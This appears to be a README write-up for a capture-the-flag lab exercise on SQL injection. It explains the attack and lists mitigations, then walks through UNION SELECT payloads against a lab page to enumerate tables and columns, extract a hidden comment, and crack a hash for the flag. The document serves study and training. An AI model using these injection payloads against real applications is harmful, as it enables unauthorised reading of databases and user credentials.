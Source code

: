# SQL Injection

SQL Injection (SQLi) is a type of injection attack where malicious SQL code is inserted into input fields, query strings, or HTTP headers with the intention of manipulating the application's interaction with its database.

If successful, an attacker can:

- **Read sensitive data** (e.g., user credentials, personal information)
- **Modify or delete data** (Insert, Update, Delete)
- **Perform administrative operations** on the database (e.g., shutdown, drop tables)
- **Access system files** stored on the database server
- **Execute OS-level commands** (in some configurations)

SQL Injection occurs when input is not properly validated or sanitized, allowing attacker-supplied input to be executed as part of a SQL query.

## Mitigations
To protect your application from SQL Injection:
- Use parameterized queries (also known as prepared statements) with bound parameters.
- Avoid dynamic SQL construction using user input.
- Use ORM (Object-Relational Mapping) frameworks which safely abstract SQL queries (when used correctly).
- Escape and sanitize input data if query construction is unavoidable (e.g., LIKE clauses with wildcards).
- Enforce least privilege on database users — avoid using accounts with admin rights.
- Validate input data strictly (e.g., length, type, format, and range).
- Use stored procedures that do not concatenate user input into queries.
- Monitor and log all database errors and query behavior for suspicious activity.
- Disable detailed SQL errors in production to prevent leakage of database structure or logic.

## References
- [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## Exercise
Same as in previous SQL Injection exercise, on index.html?page=searchimg, we tried to inject MariaDB tables.

1. Identify existing tables in the DB with union select,
```
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```
Results: 
```
ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables  
First name: db_default
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: users
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: guestbook
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: list_images
Surname : 

ID: 1 UNION SELECT table_name, NULL FROM information_schema.tables # 
First name: vote_dbs
Surname : 

2. Get exisiting columns
1 UNION SELECT column_name, NULL FROM information_schema.columns

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: username
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: password
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: user_id
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: first_name
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: last_name
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: town
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: country
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: planet
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: Commentaire
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: countersign
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: id_comment
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: url
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: title
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: id_vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: nb_vote
Surname : 

ID: 1 UNION SELECT column_name, NULL FROM information_schema.columns 
First name: subject
Surname : 
```

2. Each combination of column names has been verified, until we get following result:
```
ID: 1 UNION SELECT title, url FROM list_images# 
Title: borntosec.ddns.net/images.png
Url : Hack me ?

ID: 1 UNION SELECT title, comment FROM list_images # 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

3. We follow the hint and get the flag.
1928e8083cf461a51303633093573c46 (md5) -> albatroz
```
sha256 -s albatroz
```